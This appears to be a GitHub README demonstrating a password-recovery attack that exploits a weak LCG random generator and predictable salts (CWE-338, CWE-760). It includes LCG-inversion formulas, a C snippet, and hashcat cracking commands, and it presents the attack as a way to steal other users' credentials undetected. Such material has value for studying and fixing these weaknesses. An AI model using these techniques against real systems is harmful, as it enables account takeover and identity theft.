 # Salt-Hash Approximation Recovery-attack with Known plaintext using password backups (Hashcat)
> :warning: **Disclaimer**: THE INFORMATION PRESENTED IS FOR EDUCATIONAL PURPOSES ONLY.

This is a demonstrative recovery attack with which any low privilege user of the system
can potentially steal user credentials and perform actions using a different identity,
this works by exploiting the password reset feature shortly after a finished update cycle
in combination with backups for the attacker to map possible prng sequences to salts for hash predictions,
the attack does not set off any data integrity measures, cyber forensics would only notice traces of the attack once
the attacker is already using compromised credentials, making it hard if not impossible to identify the source.

## Summary
  1. Remove nearby hash salts by iteration of lcg parameters with known points in sequence
  2. Fire and forget guessed unsalted hashes based on lcg sequence via cloud compute services
  3. Copyright

### CWE-338 Use of Cryptographically Weak Pseudo-Random Number Generator (PRNG)
Uses a Pseudo-Random Number Generator (PRNG) in a security context, but the PRNG's algorithm is not cryptographically strong.
![](https://chart.apis.google.com/chart?cht=tx&chl=f(x_{n+1})=(ax_n+c)\gg%20d%20\pmod%20m%20\Rightarrow%20f^{-1}(y_n)=a^{-1}(y_n-c)\gg%20d%20\pmod%20m)
![](https://chart.apis.google.com/chart?cht=tx&chl=y_n:=\left%20\lfloor%20x_n/2^{31}%20\right%20\rfloor%20\pmod%20m)

```c
//for d=1
rlcg<a, c, m, /*second modulo*/0> rlcg({p1, p2});
if(!rlcg.solution().empty())
  std::cout << rlcg.solution() << std::endl;
```

### CWE-760 Use of a One-Way Hash with a Predictable Salt
One-way cryptographic hash against an input that should not be reversible, such as a password, but uses a predictable salt as part of the input.
![](https://chart.apis.google.com/chart?cht=tx&chl=h%3A%3Dmd5%28%5C%24pass%29%2B%5C%24salt.prng%5CRightarrow%20md5%3Dh-%5C%24salt.prng)

```
hashcat.exe -m 0 ./md5_salt_guess.hash -a 0 -d 1 ./rockyou-extended.dict & hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "!$??" ./rockyou-extended.dict ?1 &^
hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "@#%&*" ./rockyou-extended.dict ?1 & hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "12347890" -2 "!$??" ./rockyou-extended.dict ?1?2 &^
hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "12347890" ./rockyou-extended.dict ?1 & more hashcat.potfile
```

### Copyright and license
Code and documentation copyright 2021 Alexander Töpfer. Code released under the MIT License
